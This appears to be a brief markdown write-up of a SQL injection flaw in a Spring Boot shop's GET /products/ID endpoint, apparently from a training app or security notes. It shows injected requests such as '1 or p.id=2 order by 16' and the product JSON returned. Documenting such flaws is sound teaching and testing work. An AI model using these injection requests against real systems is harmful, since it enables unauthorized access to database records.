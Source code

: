 # SQL Injection
SQL injection is a database query manipulation attack against structured query language (SQL) that allows attackers to escape the intended query to perform unintended/malicious actions.

## Exploitation
**Prerequisites:** None
**Location:** _GET /products/ID_

The ID parameter of GET /products/ID can be escaped since SpringBoot on this endpoint does not implement any protects filtering or isolating for clause fields.  Below is an exploitation example:

    # Receives Product ID 1 information
    GET /products/1 or p.id=2  order by 15

    # Receives Product ID 2 information when it should be Product ID 1
    GET /products/1 or p.id=2  order by 16

You'l see that adding _or p.id=2 order by 16_ changed the product output showing effectively that SQL was escaped

Successful exploitation looks like:

    {
    "id": ...,
    "name": ...,
    "brand": ...,
    "description": ...,
    "price": ...,
    "stock": ...,
    "productReviews": [{...}, {...}, ...],
    "averageReviewGrade": ...,
    "tagNames": [...],
    "image": ...
    }